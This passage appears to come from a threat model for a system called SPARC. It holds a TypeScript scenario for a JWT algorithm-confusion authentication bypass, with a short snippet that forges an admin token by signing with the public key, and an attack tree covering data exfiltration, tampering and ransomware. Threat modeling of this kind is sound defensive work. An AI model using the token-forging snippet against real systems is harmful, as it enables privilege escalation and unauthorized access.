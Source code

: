 **Scenario 2: API Authentication Bypass**
```typescript
// Attack simulation
export const authBypassScenario = {
  name: "JWT Token Manipulation",
  description: "Attacker modifies JWT to escalate privileges",
  attackVector: {
    technique: "Algorithm confusion attack",
    steps: [
      "Intercept valid JWT token",
      "Decode and analyze token structure",
      "Change algorithm from RS256 to HS256",
      "Sign with public key as secret",
      "Modify role claim to 'system.admin'"
    ]
  },
  impact: {
    confidentiality: "CRITICAL",
    integrity: "CRITICAL",
    authorization: "Complete bypass"
  },
  exploitation_code: `
    // Malicious token generation
    const header = { alg: 'HS256', typ: 'JWT' };
    const payload = {
      sub: 'attacker-id',
      role: 'system.admin',
      exp: Math.floor(Date.now() / 1000) + 3600
    };
    const maliciousToken = jwt.sign(payload, publicKey, { algorithm: 'HS256' });
  `
};
```

### 3. Data-Based Attacks

#### Attack Tree: Data Compromise
```
Goal: Compromise SPARC Data
├── Data Exfiltration
│   ├── Database Attacks
│   │   ├── SQL Injection Data Dump
│   │   ├── Backup Theft
│   │   └── Database Credential Theft
│   ├── API Data Scraping
│   │   ├── Automated Collection
│   │   └── Rate Limit Bypass
│   └── Storage Attacks
│       ├── S3 Bucket Misconfiguration
│       ├── Backup Storage Access
│       └── Log File Exposure
├── Data Manipulation
│   ├── Video Tampering
│   │   ├── Frame Injection
│   │   └── Metadata Modification
│   └── Record Tampering
│       ├── Audit Log Modification
│       └── Incident Report Falsification
└── Data Destruction
    ├── Ransomware
    ├── Database Dropping
    └── Backup Corruption
```
